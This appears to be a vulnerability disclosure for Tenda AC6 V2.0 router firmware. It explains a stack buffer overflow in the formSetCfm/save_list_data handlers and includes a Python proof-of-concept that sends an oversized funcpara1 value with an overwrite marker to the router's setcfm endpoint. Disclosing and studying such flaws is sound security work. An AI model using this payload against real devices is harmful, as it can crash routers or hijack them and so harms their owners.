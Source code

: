 # Tenda AC6V2.0_V15.03.06.23_multi firmware is vulnerable to Buffer Overflow via function "formSetCfm"

Firmware download website:

[AC6V2.0升级软件_腾达(Tenda)官方网站](https://www.tenda.com.cn/material/show/2855)

In the `formSetCfm` function, when user input sets `funcname` to **`save_list_data`**, the parameters **`funcpara1`** and **`funcpara2`** are passed to the `save_list_data` function. Inside `save_list_data`, `funcpara1` is then used in a `sprintf` call: `sprintf(mib_name, "%s.list%d", list_name, counta);`. This writes to a stack variable **`mib_name`** which has a fixed size of only **64 bytes**. Crucially, there's **no length validation** performed on the input, making it very easy to cause a **buffer overflow**.

![image-20250616221546473](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250616221546473.png)

![image-20250616221617940](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250616221617940.png)

poc

```python
import requests
def send_payload(url, funcpara1, funcpara2):
    params={
            'funcname':b'save_list_data',
            'funcpara1':funcpara1,
            'funcpara2':funcpara2}
    cookie={'password':'gfytgb'}
    response = requests.post(url,cookies=cookie,data=params)
    print(f"Status Code: {response.status_code}")
    print(f"Response Text: {response.text}")

funcname=b'save_list_data'
funcpara1=b'a'*0x200+b'\xef\xbe\xad\xde'
funcpara2=b''
url="http://192.168.1.1/goform/setcfm"
send_payload(url, funcpara1,funcpara2)   
```

![image-20250616225016508](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250616225016508.png)